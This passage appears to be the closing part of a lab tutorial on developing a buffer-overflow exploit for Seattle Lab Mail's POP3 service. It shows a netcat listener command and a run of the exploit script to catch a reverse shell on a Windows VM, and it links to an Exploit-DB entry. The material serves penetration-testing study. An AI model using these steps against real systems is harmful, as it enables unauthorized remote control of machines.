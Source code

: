 I believe we now have a working exploit. So, lets open a netcat listener, and send the exploit.

In Kali Terminal 1
```bash
nc –nlvp 443
```

In Kali Terminal 2
```
python pop3_exploit.py
```

Hopefully, Terminal 1 will now give you your reverse shell onto the Windows VM. We have developed an exploit for any similar Windows machine running Seattle Lab Mail.

[exploit]: https://www.exploit-db.com/exploits/638
[Immunity Debugger]: https://www.immunityinc.com/products/debugger/




